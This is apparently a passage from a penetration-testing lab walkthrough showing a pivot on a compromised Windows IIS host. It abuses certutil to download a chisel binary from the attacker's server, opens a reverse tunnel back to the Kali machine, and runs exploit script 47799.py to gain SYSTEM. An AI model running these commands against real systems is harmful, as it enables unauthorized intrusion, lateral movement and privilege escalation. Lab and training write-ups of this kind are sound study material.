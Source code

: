 Prepare client binaries for target to download

```console
┌──(root㉿kali)-[~]
└─# curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100 3175k  100 3175k    0     0  2634k      0  0:00:01  0:00:01 --:--:-- 2634k

┌──(root㉿kali)-[~]
└─# gzip -d chisel_1.7.7_windows_amd64.gz

┌──(root㉿kali)-[~]
└─# mv chisel_1.7.7_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on target

```cmd
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
c:\windows\system32\inetsrv>certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
****  Online  ****
  000000  ...
  7d9800
CertUtil: -URLCache command completed successfully.
```

Run the chisel server on Kali

```console
┌──(root㉿kali)-[~]
└─# ./chisel server --reverse --port 8080
2022/12/04 12:18:55 server: Reverse tunnelling enabled
2022/12/04 12:18:55 server: Fingerprint 2QFdlLDixUwKxkX2ws7p5Bzq9bkzCh/Vk+3Y0DZiJfg=
2022/12/04 12:18:55 server: Listening on http://0.0.0.0:8080
```

Run the chisel client on target

```cmd
%TEMP%\chisel.exe client 192.168.17.10:8080 R:8021:localhost:8021
c:\windows\system32\inetsrv>%TEMP%\chisel.exe client 192.168.17.10:8080 R:8021:localhost:8021
```

Verify that the chisel client has hooked on to chisel server
```console
2022/12/04 12:19:48 server: session#1: tun: proxy#R:8021=>localhost:8021: Listening
```

Attempt the exploit again "locally"

```console
┌──(root㉿kali)-[~]
└─# python3 47799.py localhost whoami
Authenticated
Content-Type: api/response
Content-Length: 20

nt authority\system
```
